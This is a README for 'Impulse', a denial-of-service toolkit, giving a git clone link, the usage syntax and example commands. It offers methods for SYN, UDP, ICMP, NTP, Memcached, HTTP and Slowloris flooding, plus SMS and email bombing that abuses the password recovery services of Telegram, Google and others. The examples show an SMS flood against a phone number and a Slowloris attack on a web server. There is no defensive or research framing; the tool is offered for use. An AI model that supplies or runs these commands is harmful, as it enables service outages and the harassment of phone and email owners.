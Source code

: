 # Impulse  
Denial Of Service (DOS) ToolKit  
  
### Download
https://github.com/LimerBoy/Impulse via git clone https://github.com/LimerBoy/Impulse

### Usage
> impulse [--method SMS/EMAIL/NTP/SYN/UDP/POD/ICMP/HTTP/Slowloris/Memcached] [--target phone/email/ip/ip:port/url] [--time seconds] [--threads number]  
  
> impulse [--help]
  
### Examples
##### Send multiple sms from password recovery supporting services like telegram, google, ...
```bash
impulse --method SMS --time 20 --threads 16 --target +7999999999
```

##### DOS a web server using Slowloris attack (keep sockets open sending keep-alive headers)
```
impulse --threads 80 --target https://scanme.nmap.org --method slowloris --time 30
```
